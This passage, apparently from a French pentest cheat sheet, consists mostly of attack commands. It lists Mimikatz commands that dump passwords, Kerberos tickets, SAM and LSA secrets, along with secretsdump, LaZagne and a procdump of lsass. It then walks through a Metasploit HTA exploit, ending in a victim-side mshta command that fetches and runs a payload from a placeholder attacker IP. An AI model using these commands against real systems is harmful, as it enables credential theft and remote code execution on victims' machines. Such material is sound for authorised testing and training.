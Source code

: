 ### Mimikatz
| Commande | Description |
|----------|-------------|
| `privilege::debug` | Activer les privilèges debug |
| `sekurlsa::logonpasswords` | Dump passwords en mémoire |
| `sekurlsa::wdigest` | Credentials WDigest |
| `sekurlsa::kerberos` | Tickets Kerberos |
| `lsadump::sam` | Dump SAM |
| `lsadump::secrets` | Dump LSA secrets |

### Autres outils
| Outil | Commande |
|-------|----------|
| **secretsdump.py** | `secretsdump.py domain/user:pass@target` |
| **LaZagne** | `laZagne.exe all` |
| **procdump + mimikatz** | `procdump.exe -ma lsass.exe lsass.dmp` |

---

## 🎪 7. Exploitation HTA avec Metasploit

### Configuration du module hta_server
| Étape | Commande |
|-------|----------|
| **Démarrer msfconsole** | `msfconsole -q` |
| **Utiliser le module** | `use exploit/windows/misc/hta_server` |
| **Configurer LHOST** | `set LHOST [IP_ATTAQUANT]` |
| **Configurer LPORT** | `set LPORT 4444` |
| **Lancer l'exploit** | `exploit` |

### Exécution côté victime
| Commande | Description |
|----------|-------------|
| `mshta.exe http://[IP_ATTAQUANT]:8080/[URL_GENEREE].hta` | Exécuter le payload HTA |

---

## ⚠️ 8. Vérifications de sécurité communes
